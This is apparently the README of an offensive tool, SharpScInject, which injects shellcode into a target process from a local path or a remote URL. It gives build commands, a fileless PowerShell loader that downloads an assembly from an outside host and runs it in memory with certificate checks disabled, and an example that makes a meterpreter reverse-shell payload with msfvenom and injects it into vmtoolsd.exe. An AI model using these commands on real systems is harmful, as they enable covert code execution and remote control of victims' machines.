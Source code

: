 # Sharp Shell Code Inject
Inject the shellcode from local file or remote.
The https certificate for the request is ignored.
(No need high priv!)

## Build
```
sudo apt install -y mono-complete
mcs /reference:System.Net.Http SharpScInject.cs
```

## Usage
```
SharpScInject.exe <PID_or name> <Shell Code PATH / URL>
```


File-less invoke
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} ;
$data = (New-Object System.Net.WebClient).DownloadData('https://192.168.xx.xx/file/ProcInject.exe')
# $data=[System.IO.File]::ReadAllBytes('C:\Windows\Tasks\ProcInject.exe')

$argument = "5278 https://192.168.xx.xx/file/my_shellcode.bin"

$assem = [System.Reflection.Assembly]::Load($data)
$method = $assem.Entrypoint
$argu= New-Object -TypeName System.Collections.ArrayList
$strings = $argument.Split(" ")
$argu.Add($strings)
$method.Invoke($null, $argu.ToArray())
```
## example
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.20  LPORT=443 -f raw -o a.raw
.\SharpScInject.exe vmtoolsd.exe http://10.10.16.20/a.raw
```
